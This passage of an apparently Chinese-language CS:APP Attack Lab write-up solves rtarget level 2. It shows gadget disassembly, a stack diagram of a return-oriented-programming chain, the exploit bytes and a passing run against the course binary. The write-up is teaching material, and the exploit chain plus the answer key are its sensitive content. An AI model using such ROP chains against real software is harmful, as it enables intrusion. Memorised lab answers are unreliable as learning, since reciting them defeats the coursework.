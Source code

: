 ```x86asm

00000000004019ca :
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019d0 :
```
下图是栈上的内容，也可以理解为最终的攻击逻辑：
```txt
            64bit          0
            +--------------+ 0 byte
            |   0x4017ec   |   --> touch2的起始地址
            +--------------+ -8
            |   0x4019c5   |   --> 48 89 c7, 90, c3 -> movq %rax, %rdi | nop | ret (设置了touch2的参数)
            +--------------+ -16
            |  0x59b997fa  |    --> cookie的值，也就是touch2的参数
            +--------------+ -24
  getbuf -> |  0x4019ab    |    --> 58, 90, c3 -> popq %rax | nop | ret (此时rsp的值为-8，即ret跳转到0x4019c5)
ret address +--------------+ -32
            |              |
            |              |
            |              |
            +--------------+ <- buffer起始地址 -72```
即我们让程序最终执行的代码（在getbuf的ret指令后、touch2函数的第一条指令前）可以认为是：
```x86asm
popq %rax
nop
ret
movq %rax, %rdi
nop
ret
```
完成了ROP攻击：
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ cat bytes 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00

sugar@ubuntuServer:~/csappLab/attacklab$ ./hex2raw < bytes > args.txt 
sugar@ubuntuServer:~/csappLab/attacklab$ ./rtarget -q -i args.txt 
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```
## Rtarget level3
